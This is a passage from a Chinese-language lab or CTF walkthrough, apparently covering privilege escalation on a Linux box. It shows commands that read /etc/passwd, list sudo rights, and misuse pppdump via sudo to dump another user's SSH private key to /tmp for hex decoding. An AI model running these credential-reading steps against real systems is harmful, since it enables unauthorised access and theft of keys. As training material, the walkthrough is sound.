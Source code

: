 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

切换完，找一下主机的敏感信息

```
cat /etc/passwd
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

找到3个用户

### 提权

```
sudo -l
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

找到可以使用user1身份执行pppdump命令，先看下这个pppdump是什么文件

```
man pppdump
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这是转换ppp文件为可读格式的工具，尝试读取文件

```
pppdump index.php
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

好像可以读，但是变成了16进制，试着读取用户目录下的id_rsa文件

```
sudo -u user1 pppdump /home/user1/.ssh/id_rsa
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

有id_rsa文件，把内容保存下来再去转换

```
cd /tmp  
sudo -u user1 pppdump /home/user1/.ssh/id_rsa >id_rsa
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

把文件拿去解一下

```
https://icyberchef.com/#recipe=From_Hex('Auto')
```
